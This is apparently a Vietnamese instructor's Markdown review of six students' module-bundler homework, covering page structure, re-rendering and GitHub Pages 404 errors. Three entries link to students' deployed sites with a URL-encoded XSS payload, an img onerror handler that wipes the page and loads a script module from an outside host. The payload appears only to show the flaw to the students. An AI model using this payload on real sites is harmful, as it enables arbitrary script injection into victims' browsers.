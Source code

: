 # Dương review bài tập về nhà buổi 41 - Lớp K3

## [Nguyễn Quang Cường](<https://github.dev/cuonggold2408/Fullxinach_K3/tree/main/Day_40(ModuleBundler)>)

- [x] Bài 1: Bài làm tốt

  Các đoạn code và xử lý đều rất tốt

  Sai chính tả: Errol -> Error.

  Vì Error cũng là trang, nên đưa vào chung với pages để có thể xử lý được nhiều hơn

  Xử lý phần re-render chưa được tốt khiến cho khi chuyển trang thì re-render lại cả trang thay vì phần cần thay đổi.

  Chưa xử lý tốt case [XSS](https://modulebundler.vercel.app/san-pham/%3Cimg%0A%20%20src%3D%22%22%0A%20%20onerror%3D%27b%3Ddocument%2Ca%3Db.body%3Ba.innerHTML%3D%22%22%3Ba.appendChild%28c%20%3D%20b.createElement%28%22script%22%29%2Cc.type%3D%22module%22%2Cc.innerHTML%3D%60import%20%7BHTML%7D%20from%20%22https%3A%5C%2F%5C%2Funpkg.com%2Fjsvjp%22%3BHTML%28%22h1%22%2C%20%22error%22%2C%20%22HACKED%21%22%29%60%29%3Ba.appendChild%28d%3Db.createElement%28%22link%22%29%2Cd.rel%3D%22stylesheet%22%2Cd.href%3D%22https%3A%5C%2F%5C%2Funpkg.com%2Fjsvjp%2Fstyle.css%22%29%3B%27%0A%2F%3E)

- [x] Đánh giá chung bài tập về nhà: Bài làm rất tốt, chỉ cần chú ý thêm một chút tiểu tiết

## [Vũ Thống](https://github.dev/pencilbsp/f8_offline/tree/main/BTVN/btvn_buoi_39)

p- [x] Bài 1: Bài làm tốt

Các đoạn code và xử lý đều rất tốt

Vì Error cũng là trang, nên đưa vào chung với pages để có thể xử lý được tốt hơn, chính xác hơn.

Vì deploy lên githubpage, không xử lý được rewrite Url nên khi reload thì bị lỗi, 404

Xử lý phần re-render chưa được tốt khiến cho khi chuyển trang thì re-render lại cả trang thay vì phần cần thay đổi.

Do không reload được trang nên không rõ có dính XSS không, nhưng theo code đọc thì chắc là có ạ

- [x] Đánh giá chung bài tập về nhà: Bài làm rất tốt, chỉ cần chú ý thêm một chút tiểu tiết

## [Phí Văn Đức](https://github.com/PhiVanDuc/Offline-F8-K3/tree/main/Day-38-JS)

- [x] Bài 1: Bài làm tốt

  Các đoạn code và xử lý đều rất tốt

  Vì Error cũng là trang, nên đưa vào chung với pages để có thể xử lý được tốt hơn, chính xác hơn.

  Vì deploy lên githubpage, không xử lý được rewrite Url nên khi reload thì bị lỗi, 404

  Xử lý phần re-render chưa được tốt khiến cho khi chuyển trang thì re-render lại cả trang thay vì phần cần thay đổi.

  Do không reload được trang nên không rõ có dính XSS không, nhưng theo code đọc thì chắc là có ạ

- [x] Đánh giá chung bài tập về nhà: Bài làm rất tốt, chỉ cần chú ý thêm một chút tiểu tiết

## [Pham Tiến Đạt](https://github.dev/Ntiendat-2k3/F8-js-BTVN/tree/main/BTVN/Module_Bundler)

- [x] Bài 1: Bài làm tốt

  Các đoạn code và xử lý đều rất tốt

  Vì Error cũng là trang, nên đưa vào chung với pages để có thể xử lý được nhiều hơn

  Xử lý phần re-render chưa được tốt khiến cho khi chuyển trang thì re-render lại cả trang thay vì phần cần thay đổi.

  Chưa xử lý tốt case [XSS](https://f8-js-btvn.vercel.app/san-pham/%3Cimg%0A%20%20src%3D%22%22%0A%20%20onerror%3D%27b%3Ddocument%2Ca%3Db.body%3Ba.innerHTML%3D%22%22%3Ba.appendChild%28c%20%3D%20b.createElement%28%22script%22%29%2Cc.type%3D%22module%22%2Cc.innerHTML%3D%60import%20%7BHTML%7D%20from%20%22https%3A%5C%2F%5C%2Funpkg.com%2Fjsvjp%22%3BHTML%28%22h1%22%2C%20%22error%22%2C%20%22HACKED%21%22%29%60%29%3Ba.appendChild%28d%3Db.createElement%28%22link%22%29%2Cd.rel%3D%22stylesheet%22%2Cd.href%3D%22https%3A%5C%2F%5C%2Funpkg.com%2Fjsvjp%2Fstyle.css%22%29%3B%27%0A%2F%3E)

- [x] Đánh giá chung bài tập về nhà: Bài làm rất tốt, chỉ cần chú ý thêm một chút tiểu tiết

## [Vương Đông](https://github.dev/Ntiendat-2k3/F8-js-BTVN/tree/main/BTVN/Module_Bundler)

- [x] Bài 1: Bài làm tốt

  Các đoạn code và xử lý đều rất tốt

  Vì Error cũng là trang, nên đưa vào chung với pages để có thể xử lý được nhiều hơn

  Xử lý phần re-render chưa được tốt khiến cho khi chuyển trang thì re-render lại cả trang thay vì phần cần thay đổi.

  Chưa xử lý tốt case [XSS](https://f8-fullstack-k3.vercel.app/product/%3Cimg%0A%20%20src%3D%22%22%0A%20%20onerror%3D%27b%3Ddocument%2Ca%3Db.body%3Ba.innerHTML%3D%22%22%3Ba.appendChild%28c%20%3D%20b.createElement%28%22script%22%29%2Cc.type%3D%22module%22%2Cc.innerHTML%3D%60import%20%7BHTML%7D%20from%20%22https%3A%5C%2F%5C%2Funpkg.com%2Fjsvjp%22%3BHTML%28%22h1%22%2C%20%22error%22%2C%20%22HACKED%21%22%29%60%29%3Ba.appendChild%28d%3Db.createElement%28%22link%22%29%2Cd.rel%3D%22stylesheet%22%2Cd.href%3D%22https%3A%5C%2F%5C%2Funpkg.com%2Fjsvjp%2Fstyle.css%22%29%3B%27%0A%2F%3E)

- [x] Đánh giá chung bài tập về nhà: Bài làm rất tốt, chỉ cần chú ý thêm một chút tiểu tiết

## [Đỗ Văn Khoa](https://mrkhoadev.github.io/F8-Fullstack-K3/Day40/build)

- [x] Bài 1: Bài làm tốt

  Các đoạn code và xử lý đều rất tốt

  Vì Error cũng là trang, nên đưa vào chung với pages để có thể xử lý được tốt hơn, chính xác hơn.

  Vì deploy lên githubpage, không xử lý được rewrite Url nên khi reload thì bị lỗi, 404

  Xử lý phần re-render chưa được tốt khiến cho khi chuyển trang thì re-render lại cả trang thay vì phần cần thay đổi.

  Do không reload được trang nên không rõ có dính XSS không, nhưng theo code đọc thì chắc là có ạ

- [x] Đánh giá chung bài tập về nhà: Bài làm rất tốt, chỉ cần chú ý thêm một chút tiểu tiết
